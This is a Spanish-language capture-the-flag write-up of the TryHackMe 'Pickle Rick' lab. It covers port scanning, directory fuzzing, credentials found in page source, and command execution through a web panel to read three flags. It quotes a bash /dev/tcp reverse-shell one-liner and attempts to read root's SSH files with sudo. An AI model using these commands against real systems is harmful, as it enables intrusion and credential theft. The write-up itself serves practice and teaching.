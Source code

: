 ```yaml
---
layout: single
title: Pickle Rick - TryHackMe
excerpt: "Pickle Rick es un CTF de la plataforma de Tryhackme de dificultad muy facil es una maquina linux donde tendremos que encontrar 3 ingredientes para que Rick pueda hacer su posion para transformarse de vuelta a un humano las credenciales para conectarnos por un panel de login no las daran mientras enumeramos la maquina al final tendremos que leer los ingredientes en un apartado de la web donde podemos ejecutar comandos, en la maquina victima intente enviarme una reverse shell pero esta bloqueado el comando"
date: 2023-03-03
classes: wide
header:
  teaser: /assets/images/try-writeup-rickm/logo.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.webp
categories:
  - Tryhackme
  - infosec
tags:  
  - Linux enumeration
  - Fuzzing
---
```

![](/assets/images/try-writeup-rickm/logo.png)

```bash
❯ ping -c 1 10.10.136.234
PING 10.10.136.234 (10.10.136.234) 56(84) bytes of data.
64 bytes from 10.10.136.234: icmp_seq=1 ttl=61 time=463 ms

--- 10.10.136.234 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 462.876/462.876/462.876/0.000 ms
❯ whichSystem.py 10.10.136.234

10.10.136.234 (ttl -> 61): Linux
```

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.136.234 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-03 13:01 CST
Nmap scan report for 10.10.136.234
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9828b8ef2be01ade352c2f290d85ec6b (RSA)
|   256 82581151eaa21e774c656f0b2d87580f (ECDSA)
|_  256 6191e8dadcaf7bc3327255efe58cb122 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.90 seconds
```

```bash
❯ nmap --script=http-enum -p80 10.10.136.234 -oN webScan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-03 13:03 CST
Nmap scan report for 10.10.136.234
Host is up (0.20s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 22.22 seconds
```

## Enumeration

```ruby
❯ whatweb http://10.10.136.234
http://10.10.136.234 [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.136.234], JQuery, Script, Title[Rick is sup4r cool]
```

Y bueno en la web le estan diciendo a `Morty` que le ayude a encontrar los ingredientes para acabar su posion pero que el unico problema es que no sabe donde esta su contraseña

![](/assets/images/try-writeup-rickm/Web1.png)

Si vemos el codigo fuente vemos que encontramos credenciales

![](/assets/images/try-writeup-rickm/Web2.png)

`Username:R1ckRul3s`

Al tener un usuario podemos hacer fuerza bruta para encontrar la contraseña ya que el puerto `22` esta abierto vamos a seguir enumerando

`Nmap` nos resporta rutas interesantes

Encontramos esto en la ruta `robots.txt` no se si sea una contraseña ya que es un `CTF` pero por si acaso vamos a guardarla

![](/assets/images/try-writeup-rickm/Web3.png)

`Wubbalubbadubdub`

Ahora vemos un panel de login

![](/assets/images/try-writeup-rickm/Web4.png)

Esta usundo `php` asi que podemos fuzzear por otras rutas existentes

Encontramos rutas que ya habiamos visto la ruta `portal.php` nos redirige a `login.php`

```bash
❯ gobuster dir -u http://10.10.136.234 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 90 -x php,txt,html --add-slash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.136.234
[+] Method:                  GET
[+] Threads:                 90
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/03/03 13:15:48 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/icons/               (Status: 403) [Size: 294] 
/assets/              (Status: 200) [Size: 2192]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```

En la ruta `assets` vemos esto

![](/assets/images/try-writeup-rickm/Web5.png)

Vamos a probar el usuario que nos dieron para ver si es correcto

Si probamos lo que encontramos nos deja conectarnos y esta es la web

![](/assets/images/try-writeup-rickm/Web6.png)

`R1ckRul3s:Wubbalubbadubdub`

Si empezamos a ver lo que hay encontramos esto en `Potions`

![](/assets/images/try-writeup-rickm/Web7.png)

Si vemos todo nos redirige a `/denied.php` exepto `Commands`

![](/assets/images/try-writeup-rickm/Web8.png)

Bueno si vemos el codigo fuente  `portal.php` al logiarnos  al parecer vemos algo en base64

![](/assets/images/try-writeup-rickm/Web9.png)

```bash
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

Despues de decodar varias veces la cadena ya que cada que decodeabas de daba otra llegamos a este resultado 

```bash
❯ echo 'cmFiYml0IGhvbGU=' | base64 -d
rabbit hole
```

Y bueno nada interesante vamos a ver que es lo que podemos hacer en el apartado de `comands`

Estamos ejecutando comandos como `www-data` 

![](/assets/images/try-writeup-rickm/Web10.png)

Si hacemos un `ls -la` vemos que hay un archivo `.txt`

![](/assets/images/try-writeup-rickm/Web11.png)

Si lo vemos en la web encontramos esto

![](/assets/images/try-writeup-rickm/Web12.png)

Si hacemos un `hostname -i` estamos ejecutando comandos en la maquina victima asi que para enumerar mejor vamos a ganar acceso

![](/assets/images/try-writeup-rickm/Web13.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Usaremos este `oneliner` que pondremos en la parte donde escribimos comandos

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Vale al probar varios `oneliners` y ademas poniendo el `&` a `%26` la web me dice esto

![](/assets/images/try-writeup-rickm/Web13.png)

Asi que vamos a tener que descubrir los 2 ingredentes faltantes desde esa parte de la web

Cuando hicimos un `ls -la` nos mostro otro archivo llamado `clue.txt` vamos a ver que encontramos hay

![](/assets/images/try-writeup-rickm/Web14.png)

Si ejecutamos este comando `cd /home;ls -la;pwd` vemos estos usuarios

![](/assets/images/try-writeup-rickm/Web15.png)

Si ejecutamos el comando `cd /home/rick;ls -la;pwd` vemos el segundo ingrediente

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
/home/rick
```

Si ejecutamos este comando `less /home/rick/"second ingredients"` podemos ver el ingrediente 

```bash
1 jerry tear
```

Ahora solo nos falta el ultimo 

Bueno algo a saber es que si hacemos un `sudo -l` podemos ejecutar cualquier comando como `www-data` sin proporcionar contraseña

```bash
Matching Defaults entries for www-data on ip-10-10-136-234.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-136-234.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Asi que ahora supongo que el ultimo ingrediente esta en la ruta de `root` 

Si ejecutamos este comando `sudo ls -la /root` vemos el `3rd.txt` asi vamos a leerla

```bash
sudo less /root/3rd.txt
```

```bash
3rd ingredients: fleeb juice
```

Intente ver la id_rsa de `root` pero no me dejo me dio el mismo error de `command disabled`

```bash
sudo cat /root/.ssh/authorized_keys
```





